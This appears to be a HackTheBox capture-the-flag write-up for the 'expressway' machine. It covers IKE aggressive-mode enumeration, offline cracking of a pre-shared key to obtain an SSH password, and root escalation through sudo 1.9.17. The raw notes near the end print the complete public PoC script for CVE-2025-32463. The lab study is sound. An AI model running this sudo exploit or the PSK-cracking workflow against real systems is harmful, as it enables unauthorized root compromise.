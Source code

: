# HTB Room Notes — expressway (10.10.11.87)

**Target IP:** `[REDACTED]`  
**Room:** expressway  
**Date:** 2025-09-13  
**Author:** PortMortem

---

## Summary / Objective
Quick reconnaissance and exploitation notes for HackTheBox machine `[REDACTED]`. Initial scans were unreliable (required VPN/machine restart). After discovering an IPsec/IKE responder on UDP/500, aggressive IKE probing and PSK cracking yielded valid credentials for the `ike` user. Those credentials provided an initial foothold (SSH). Local enumeration revealed a vulnerable `sudo` binary (`/usr/local/bin/sudo` with version 1.9.17), which was exploited using a public PoC (CVE-2025-32463) to obtain root.

**Outcome:**  
- User flag: `[REDACTED]`  
- Root artifact: `[REDACTED]`

---

## Skills exercised
- Network scanning (nmap, rustscan, zenmap)  
- UDP/IKE discovery and fingerprinting (ike-scan)  
- Packet capture and analysis (tcpdump, Wireshark)  
- Aggressive-mode IKE probing and PSK parameter extraction  
- Offline PSK cracking (psk-crack with wordlists)  
- SSH authentication & foothold acquisition  
- Local enumeration and binary discovery (which, sudo -V)  
- Vulnerability research (CVE lookup, PoC discovery)  
- Local privilege escalation using a PoC exploit

---

## Challenges encountered
- Initial scans (rustscan / zenmap) were unreliable — required restarting the VPN and/or switching attacking VM.  
- UDP services require specialized tools; initial TCP-only scans missed the IKE responder on UDP/500.  
- PoC exploitation required understanding local binary placement (`/usr/local/bin/sudo`) and confirming versioning before running any exploit code.

---

## Tools & commands (relevant)
> Note: Run only in authorized/test environments.
```bash
# TCP/TCP discovery
nmap -sC -sV -oN nmap_initial [REDACTED]
rustscan -a [REDACTED] -r 1-65535

# UDP/IKE discovery (recommended)
sudo ike-scan -A expressway.htb
sudo ike-scan expressway.htb

# Capture IKE traffic while probing
sudo tcpdump -i tun0 udp port 500 or 4500 -w ike_capture.pcap
# In another terminal:
sudo ike-scan -A [REDACTED]

# Extract PSK parameters and crack (psk-crack shipped with ike-scan)
sudo psk-crack psk.txt -d /usr/share/wordlists/rockyou.txt

# SSH (after obtaining credentials)
ssh ike@expressway.htb

# Local checks
sudo -l
sudo -V
which sudo
```

---

## Walkthrough / Steps performed (chronological)
1. Conducted initial TCP scans; experienced intermittent failures; restarted VPN and attacking VM to re-establish consistent connectivity.  
2. Noted that UDP port 500 responded; switched to `ike-scan` for IKE fingerprinting.  
3. Ran `ike-scan -A expressway.htb` and captured aggressive-mode output identifying `ike@expressway.htb` and SA parameters (3DES, SHA1, modp1024, PSK). Captured traffic with `tcpdump` for offline work.  
4. Extracted PSK parameters and used `psk-crack` with a dictionary (rockyou) to identify PSK `freakingrockstarontheroad`.  
5. Used the discovered PSK/password to SSH as `ike@expressway.htb` and retrieved user flag `[REDACTED]`.  
6. Performed local enumeration: confirmed `sudo` version 1.9.17 and location `/usr/local/bin/sudo`.  
7. Located public PoC for CVE-2025-32463, adapted it in the lab environment and obtained root (`[REDACTED]`).

---

## IKE technical notes (concise)
- IKE runs over UDP port 500 (and 4500 for NAT-T). It negotiates IPsec SAs and authenticates peers (PSK, cert, EAP).  
- Aggressive mode can leak identity/vendor information; useful for fingerprinting.  
- Weak parameters observed (3DES, SHA1, DH group 2) are legacy and can facilitate offline attacks.  
- `ike-scan` + `tcpdump` + `psk-crack` is a common workflow for enumerating and cracking PSK-based IKE endpoints in labs.

---

## Observations & lessons learned
- If scans behave oddly, first try restarting the VPN/attacking machine — scan connectivity issues can be environmental.  
- Use UDP-aware tooling for UDP services; `ike-scan` is essential for IKE/IPsec discovery.  
- Capture probe traffic for offline analysis and cracking.  
- Confirm binary paths and versions before using public PoCs; read PoC code and understand mechanism.

---

## Artifacts / evidence (store securely)
- `ike_capture.pcap` — pcap of IKE exchanges.  
- `psk_parameters.txt` — parameters exported for psk-crack.  
- `psk_crack_output.txt` — output showing PSK `freakingrockstarontheroad`.  
- `ssh_session_ike.txt` — SSH session log.  
- `poC_sudo_notes.txt` — notes used to run PoC locally in lab (sanitized).

---

## References
- `ike-scan` manual & homepage: http://www.nta-monitor.com/tools/ike-scan/  
- Public PoC: `CVE-2025-32463` repository (example): https://github.com/kh4sh3i/CVE-2025-32463  
- Wireshark guides for IKE/IPsec analysis.  
- HTB/CTF writeups for IKE/PSK cracking workflows.

---

## Final outcome
- **User compromise:** `ike@expressway.htb` — password discovered: `[REDACTED]`  
- **User flag obtained:** `[REDACTED]`  
- **Root artifact obtained:** `[REDACTED]`

---

*End of notes — redact sensitive artifacts before sharing outside your authorized team.*

---
orginial notes:
<details>
ip “[REDACTED]”

no info on it, lets see what's up

cant' find anything with rustscan and zenmap

did some digging and it would seem that we need to use udp scanning

did a zenmap scan with UDP

trying to go to the website doesn't work either

so, the fucking thing didn't work at first! I thought I was nuts!

Had to restart the vpn and a new machine, as it wasn't responding

looks like ssh is open

ORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

scans refused to work for a bit, not sure why this happened, but i re-started nmap with an udp scan and we see that port 500/udp is open

open ports:
22 ssh
500 udp

so, since we have a udp, we need to scan it, it was recommended to use ike-scan

sudo ike-scan -A expressway.htb for an agressive scan. We get:

sudo ike-scan -A expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=cae9e35e7fe5d841) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.062 seconds (16.05 hosts/sec).  1 returned handshake; 0 returned notify
       
a regular scan:

  sudo ike-scan expressway.htb
[sudo] password for kali: 
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned HDR=(CKY-R=b57f09ce65c92ef1) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.053 seconds (18.93 hosts/sec).  1 returned handshake; 0 returned notify

we notice ike@expressway.htb

so we have a name

we use ike scan because 

ike-scan is a tool that sends IKE (ISAKMP) packets to a host and records the responses.

It’s used to:

Discover IPsec/IKE responders (VPN endpoints) on UDP/500 (and UDP/4500).

Fingerprint implementations (vendor strings, supported transforms, DH group, NAT-T info).

Run Aggressive Mode probes to retrieve identity/vendor information (when the responder allows it).
It doesn’t brute-force keys by itself — it helps you enumerate and fingerprint VPN endpoints so you can follow up with targeted tests.

ike-scan discovers IKE hosts and can also fingerprint them using the retransmission backoff pattern. ike-scan can perform the following functions: Discovery Determine which hosts in a given IP range are running IKE. This is done by displaying those hosts which respond to the IKE requests sent by ike-scan.

 IKE establishs the shared security policy and authenticated keys
 
  Internet Key Exchange (IKE), a protocol for securely establishing secure communication channels for VPNs and other IPsec-based security
  
  ike enhances ip security

it's a hybrid protocol

key exchange protocol

instead of transmitting keys across network it calc shared keys on a series of data packets

a seucirt gateway peer using udp 500

uses ISAKMP (ISACAMP is how you say it), the key in phase 1 allows IKE peers to to comm

phase 1 the two IKE talk, this sets up a secure tunnel between two machines

this is how vpns work sometimes

IKE = Internet Key Exchange.

It’s used with IPsec to negotiate Security Associations (SAs) — i.e., which crypto algorithms to use, which keys, lifetimes, and who is who.

IKE runs over UDP port 500 (and UDP 4500 when NAT traversal / NAT-T is in use).

IKEv1 (older): has two phases — Phase 1 (establish a secure channel between peers) and Phase 2 (negotiate IPsec SAs). Has modes like Main and Aggressive.

IKEv2 (modern): redesigned to be simpler, more robust, supports mobility/multi-homing, EAP, built-in NAT traversal, and fewer round-trips.

Authenticates peers (PSK, RSA/certificates, or EAP/username-password).

Performs a Diffie–Hellman key exchange to create shared secret keys.

Negotiates algorithms (encryption — AES/3DES, integrity — SHA, DH group, lifetimes).

Creates SAs for IPsec tunnels (ESP/AH) so subsequent IP traffic is encrypted/authenticated.

Exchanges payloads like SA, KE (key exchange), ID (identity), CERT, AUTH, and more.

Without IKE you don’t have the secure keys/parameters needed for an IPsec VPN tunnel.

Misconfigured IKE (weak PSKs, default certs, allowed aggressive mode) is a common vulnerability in VPN deployments.

Site-to-site VPNs between networks.

Remote-access VPN clients connecting to a gateway.

Road-warrior setups with NAT traversal (UDP 4500).

Aggressive mode (IKEv1) can leak identity/vendor strings; useful for fingerprinting but less secure.

How to inspect IKE traffic

Passive capture: tcpdump -n -i <iface> udp port 500 or 4500 -w ike.pcap then open in Wireshark (Wireshark decodes IKE/IKEv2 nicely).

Active probing/fingerprinting: ike-scan (as you’ve been using) to discover/responders and attempt Aggressive Mode probes.

Nmap has NSE scripts for ISAKMP/IKE too.

<iface> just means “network interface” — the name of the network card/adapter you’re using

so we can log into the ssh with ike@expressway.thm, it wants a password

let's break down what the ike scan told us

so:

HDR=(CKY-R=cae9e35e7fe5d841)

CKY-R = Responder Cookie (a random value used by IKE to identify the exchange).

Hex string is the cookie value. Nothing sensitive by itself, but confirms the responder is speaking IKE.

SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
This is the Security Association (SA) proposal/accepted parameters returned by the responder:

Enc=3DES → Encryption algorithm is 3DES (Triple DES).

3DES is old and considered weak/legacy compared to AES. -> important, maybe a way to crack

Hash=SHA1 → Integrity/hash algorithm is SHA-1.

SHA-1 is also legacy and has known weaknesses; modern setups prefer SHA-256 or better. -> same here, could be a crack spot

Group=2:modp1024 → Diffie–Hellman group 2 (modp1024), i.e., 1024-bit DH.

1024-bit DH is considered weak by modern standards.

^ a third weak spot

uth=PSK → Authentication method is Pre-Shared Key (PSK).

Means authentication is based on a shared secret (password/key). If that PSK is weak or default, it can be attacked.

ID_USER_FQDN means the identity type is a user-style FQDN (fully qualified domain name). The value ike@expressway.htb reveals a user/host identity — a useful fingerprint and confirms the target’s internal hostname (and likely the service name expressway.htb

VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Another Vendor ID indicating support for Dead Peer Detection (DPD) v1.0 — a keepalive/peer-liveness feature.

a DPD is VPN feature that detects when a peer device, like a VPN gateway, is no longer reachable, preventing silent tunnel failures and triggering a reconnection or failover


we run this to use tcpdump to find packet info. lets do this

sudo tcpdump -i tun0 udp port 500 or 4500 -w ike_capture.pcap
sudo ike-scan -A 10.10.11.87


sudo tcpdump -i eth0 udp port 500 or 4500 -w ike_capture2.pcap
sudo ike-scan -A 10.10.11.87

sudo tcpdump -i <iface> udp port 500 or 4500 -w ike_capture.pcap
# then run ike-scan
sudo ike-scan -A 10.10.11.87
# open ike_capture.pcap in Wireshark to inspect details

sudo tcpdump -i tun0 udp port 500 or 4500 -w ike_capture.pcap
sudo ike-scan -A 10.10.11.87


so, we first run the tcpdump, then in another console us teh ike-scan to get data

we use the tun0 as this is out vpn for htb

so we use wireshark and look at the dump of the pcap

in the strings we see:

651O
+#W3
[651O
qUCA|
CWw.
TYqC
ike@expressway.htb

[651O
qUCA|
CWw.
TYqC
ike@expressway.htb

[651O
qUCA|
CWw.
TYqC
ike@expressway.htb

2b3c0d9b6f8aa41b1a548bfa3600dea4a88cc4c5

-P[<f>] Crack aggressive mode pre-shared keys.
			This option outputs the aggressive mode pre-shared key
			(PSK) parameters for offline cracking using the
			"psk-crack" program that is supplied with ike-scan.
			You can optionally specify a filename, <f>, to write
			the PSK parameters to.

so we have this key:
e289e5cc230926ec0b49e912d3136e2a639bce831ef1ffbaf9a6be87da3101d4f3ecb50311f13a1ebfa7c3e470c5e03e6c36a2be4d89596a93d19cd30d9a0b3348dd16ac790c288a8b5cc1f0abe78752f349ee0c64b6f4e57a11b722237724062e07e2882cd92200cdd6d086c738922bb5c1b10c9f5b8a32f44b5277f57a3c07:2a2fc036de81cf3000134b8f9aadfbe4d076c7eeaf5d899e4ec6230b8e54b7263556ad65836f2ec5fe79a71eead5ffa0986734ee86def6b5a035905bad6acd99fd1c44f3915b8980963fb4964681447bdafd37527a2ad818dcbff53d11f961b402b2f64579a4469969c25d6036322c32d8c7b9663f19bd0f4462beb4f85e2fa8:5da5c69d516ac0b0:e59afa26bf3b5822:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:763da88a53f1f803c1d309354201e8f876935f6b:18446b8cbe718009fdafbf36187b113f9d14e0b687534b72415150f956cf3d84:a287d67e81dff60d0cf251b3d3396e7e7bdc52ac

the psk is hte pre-shard key, can we use this to crack the password?

sudo psk-crack psk.txt -d /usr/share/wordlists/rockyou.txt 

we use the psk-crack, since there is a built in tool for that, of fucking course there is, and we use the file. the -d falg is to use a dir with a crack dictionary

we run it and get: Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash a287d67e81dff60d0cf251b3d3396e7e7bdc52ac
Ending psk-crack: 8045040 iterations in 4.134 seconds (1946103.95 iterations/sec)

so ike@express.htb has a password of “freakingrockstarontheroad”

and we're in!

user flag: “[REDACTED]”


so we get inside here and we can stasrt checking stuff out. so sudo -l and we don't have permissions without a password

sudo -v and we see that:
ike@expressway:~$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17

so we can look and see that 1.9.17 is vulnerable

also, when we try to use sudo -l and sudo id, we get a custom msg, “sorry, try again” which means that it's custom

if we which sudo, that is find hwere sudo is coming from, we see that its /usr/local/bin/sudo

we google sudo 1.9.17 and we find a script for PE:

Sudo version 1.9.17 has multiple vulnerabilities, including a critical local privilege escalation flaw

googling CVE-2025-32463 we find a github with a few cracks

:https://github.com/kh4sh3i/CVE-2025-32463

#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}

now we have root access!

to do this we created a file, changed the permissions and moved on

[REDACTED]
</details>
